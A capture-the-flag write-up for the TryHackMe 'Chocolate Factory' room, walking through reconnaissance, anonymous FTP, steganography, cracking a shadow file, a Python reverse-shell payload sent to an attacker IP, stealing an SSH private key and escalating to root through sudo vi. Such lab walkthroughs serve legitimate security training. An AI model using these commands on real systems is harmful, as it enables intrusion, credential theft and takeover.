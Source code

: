 # THM-Chocolate-Factory-WriteUp

Write up for https://tryhackme.com/room/chocolatefactory (Visit https://tryhackme.com/ for more)

# Setting up and information gathering

For this CTF I've set the record <BOX-IP> wonka in /etc/hosts.
  
By running syn scan (default mode when run as root) with nmap (`nmap -A wonka`) I found:
  FTP Server on port 21 allowing Anonymous login
  SSH Open port on port 22
  HTTP server on port 80
  Several open ports with the same hint ('Look somewhere else')
  A port with indicating a downloadable executable
  
 # Question #1
  
 By downloding the file indicated on the previous port and executing it I was asked a name, I tried several inputs with no success so further inspected the executable with strings (`strings key_rev_key`) and found this string:
 
  ``
   congratulations you have found the key:   
b'[*CENSORED*]'
``
  
 which turns out to be the answer to the first question
  
 # Question #2
  
Second question required the FTP connection:
  
  ```
└─# ftp wonka   
Connected to wonka.
220 (vsFTPd 3.0.3)
Name (wonka:kali): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
226 Directory send OK.
ftp> get gum_room.jpg
local: gum_room.jpg remote: gum_room.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for gum_room.jpg (208838 bytes).
226 Transfer complete.
```
The donloaded file is a simple jpeg representing some bubbles, no clues in the pic
I was able to exctract a file with steghide with a blank password
  
 ```
  └─# steghide extract -sf gum_room.jpg                                                                                                                 
Enter passphrase: 
wrote extracted data to "b64.txt".
```
It is an base64 encoded file so I decoded it (`base64 -d b64.txt > b64dec.txt`) to reveal what is seems to be a /etc/shadow file
John (`john -w=/usr/bin/wordlist/rockyou.txt b64dec.txt`) was able to crack charlie's password

# Question #3
  
The password found is need to login in the HTTP server on port 80 which leads to a webshell (I tried to use it for ssh into the server but with no success)

Ncat and bash reverse shells was not exploitable but I was able to get a connection by using python reverse shell
So I started a listener on port 4242 on my machine (`nc -lvnp 4242`) and send this payload to the web shell `export RHOST="<MY-THM-IP>";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
`
  
In /home/charlies we found two interesting files: teleport adn teleport.pub which are ssh keys pair
I copied teleport (private key) on my host and set the right permissions (`chmod 600 teleport`)
Then I sshed in to the server as charlie by running `ssh charlie@wonka -i teleport` accomplishing the third question
  
# Question #4
  
Just `cat user.txt` placed in /home/charlie

# Question #5
  
Checking charlie's sudo permissions I found vi , a text editor which permits to run commands with the process permissions.

So I ran `sudo /usr/bin/vi` then in the editor `:! ls /root` which reveals a file named 'root.py`, once again in the editor I typed `:! python /root/root.py`, I was asked a key so I've inserted the key from the first question, a message told me I was now the owner of the Chocolate Factory and give me the answer to the last question

  
  
